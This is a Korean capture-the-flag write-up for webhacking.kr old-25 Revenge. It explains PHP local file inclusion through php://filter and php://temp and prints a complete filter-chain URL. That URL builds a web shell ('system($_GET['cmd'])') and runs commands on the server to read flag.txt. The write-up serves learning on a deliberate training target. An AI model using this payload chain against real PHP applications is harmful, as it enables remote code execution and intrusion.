




문제는 **webhacking.kr 에서 old-25** 이다.  

[문제 링크](http://webhacking.kr:10017/?file=hello)  

# 문제 경로

## 1. /?file=hello

  

접속 시 초기 경로이고, 다음과 같이 ls -al 을 실행한 결과와 ``hello world`` 가 적혀있다.  

현재 위치에 **flag.txt, hello.php, index.php** 가 있다.

## 2. /?file=flag

  

바로 file 에 flag 를 입력했다.  

아무것도 나오지 않았다.  

추정되는 원인으로는 이전 old-25 에서는 index.php 에서 file 입력값 뒤에 php 확장자를 자동으로 붙였다.  

만약 이전과 같은 코드라면, **flag.php** 라고 인식되기 때문에 없는 파일로 나온다.  

### 참고

또한 ``/?file=flag.txt`` 라고 입력해도 **flag.txt.php** 로 인식하기 때문에 없는 파일로 인식한다.  

## 3. /?file=php://filter/read=convert.base64-encode/resource=index

  

이전 문제와 같은 취약점으로 index.php 를 검사했는데 다음과 같이 나왔다.  

혹시 위의 코드가 무슨 뜻인지 모르겠다면, 이전 문제 풀이를 보고오자.  

[old-25 풀이](https://github.com/SeoDongHyun03/2025-1-Web_hacking/blob/main/3.%20old-25/old-25%20%ED%92%80%EC%9D%B4.md)

``PGh0bWw+CjxoZWFkPgo8bWV0YSBodHRwLWVxdWl2PUNvbnRlbnQtVHlwZSBjb250ZW50PSJ0ZXh0L2h0bWw7IGNoYXJzZXQ9ZXVjLWtyIj4KPHRpdGxlPkNoYWxsZW5nZSAyNSBSZXZlbmdFPC90aXRsZT4KPHN0eWxlIHR5cGU9InRleHQvY3NzIj4KYm9keSB7IGJhY2tncm91bmQ6YmxhY2s7IGNvbG9yOndoaXRlOyBmb250LXNpemU6MTBwdDsgfQp0ZXh0YXJlYSB7IGJhY2tncm91bmQ6c2lsdmVyOyBjb2xvcjpibGFjazsgZm5vdC1zaXplOjlwdDsgfQo8L3N0eWxlPgo8L2hlYWQ+Cjxib2R5Pgo8P3BocAogIGVjaG8oIjxwcmU+Iik7CiAgc3lzdGVtKCJscyAtYWwiKTsKICBlY2hvKCI8L3ByZT4iKTsKICBpZighJF9HRVRbJ2ZpbGUnXSkgZWNobygiPG1ldGEgaHR0cC1lcXVpdj1yZWZyZXNoIGNvbnRlbnQ9MDt1cmw9P2ZpbGU9aGVsbG8+Iik7CiAgZWNobyAiPGhyPjx0ZXh0YXJlYSByb3dzPTEwIGNvbHM9MTAwPiI7CiAgJGZpbGUgPSAkX0dFVFsnZmlsZSddLiIucGhwIjsKICBpZigkZmlsZSA9PSAiaW5kZXgucGhwIikgZXhpdCgpOyAvLyBhbnRpIGluZmluaXRlIGxvb3AKICBpbmNsdWRlICRmaWxlOwogIGVjaG8gIjwvdGV4dGFyZWE+IjsKPz4KPC9ib2R5Pgo8L2h0bWw+Cg==``

```php
<html>
<head>
<meta http-equiv=Content-Type content="text/html; charset=euc-kr">
<title>Challenge 25 RevengE</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
textarea { background:silver; color:black; fnot-size:9pt; }
</style>
</head>
<body>
<?php
  echo("<pre>");
  system("ls -al");
  echo("</pre>");
  if(!$_GET['file']) echo("<meta http-equiv=refresh content=0;url=?file=hello>");
  echo "<hr><textarea rows=10 cols=100>";
  $file = $_GET['file'].".php";
  if($file == "index.php") exit(); // anti infinite loop
  include $file;
  echo "</textarea>";
?>
</body>
</html>
```

이전 old-25 에서의 index.php 와 동일한 것을 알 수 있다.  

# 풀이과정

이것도 검색했다.  

**php lfi wrapper** 라고 검색해서 다른 기법이 있는지 찾아봤는데, ``PHP Filters Chain`` 라는 것이 있었다.  

여기에서는 ``php://temp`` 를 사용한다.  

## php://temp 를 사용하는 이유

```php
<!-- index.php -->
<?php
if(isset($_GET["inc"])){
    include $_GET["inc"] . "-foo.php";
}
?>
```

위와 같은 코드가 있다고 가정하면, 입력한 값 뒤에 **-foo.php** 를 붙여서 파일을 가져오므로 원하는 파일을 가져오지 않을 수 있다.(현재 문제에서 **.php** 를 붙이는 것과 동일함)  

``php://temp`` 는 **임시 메모리에 데이터를 저장**하는 PHP 스트림 wrapper이다.  

``php://filter`` 는 존재하지 않는 스트림을 전달받아도 이를 **에러로 처리하지 않는다.**  

inc 에 ``php://filter//resource=php://temp`` 를 전달하면 다음과 같이 완성된다.  

```php
include "php://filter//resource=php://temp.-foo.php";
```

``php://filter`` 래퍼는 매개변수 resource에 ``php://temp.-foo.php`` 가 전달 되더라도 **에러를 발생시키지 않고** 존재하지 않는 스트림을 **정상적으로 처리**한다.  

1. ``include`` 함수에 직접적인 파일 경로를 지정하지 않고 ``php://filter 의 resource`` 를 통해 파일 혹은 스트림을 불러올 수 있다.
2. 필터(e.g. ``convert.base64-encode``)가 존재하면 ``resource`` 로 불러온 스트림이 ``필터에 의해 처리``된다.
3. ``php://temp`` 를 활용하면 존재하지 않는 ``스트림을 우회``할 수 있다.

## PHP Filters Chain

변환 필터 중 ``convert.iconv.<from>.<to>`` 필터는 문자 **인코딩 변환**을 수행한다.(``<from>`` 인코딩에서 ``<to>`` 인코딩으로 변경)   

**인코딩 변환**은 데이터가 특정 인코딩 방식으로 해석될 때 **예기치 않은 동작**을 일으킬 수 있다.(원하는 문자열 생성)  

이러한 특성을 이용하면 여러 **인코딩 변환을 연쇄적으로 수행**하여 **의도한 PHP 코드를 생성**할 수 있다.  

```bash
python3 php_filter_chain_generator.py --chain "<?php system(\$_GET['cmd'])?>"
```

맨 아래에 github 출처에 있는 곳에서 원하는 문자열을 **php filters chain** 로 만들어주는 코드를 이용했다.  

```
http://webhacking.kr:10017/?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&cmd=cat%20flag.txt
```

위와 같이 입력하면 다음과 같이 나온다.  

  

```
FLAG{I_Really_W@nt_to_Stay_At_Your_House}

did you solved it using php filter chain?
yes it is intended solution.
plz stop to mail me :(
�B�0�����>�=�=�@C��������>�=�=�@C��������>�=�=�@C��������>�=�=�@C��������>�=�=�@C��������>�=�=�@C��������>�=�=�@C��������>�=�=�@C��������>�=�=�@C��������>�=�=�@
```

출처
- [https://www.dottak.me/1964af8a-50ca-800b-9c3f-da340bfa9b5d](https://www.dottak.me/1964af8a-50ca-800b-9c3f-da340bfa9b5d)
- [https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-php-filters.html](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-php-filters.html)
- [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

따라서 정답은 **FLAG{I_Really_W@nt_to_Stay_At_Your_House}** 이다.  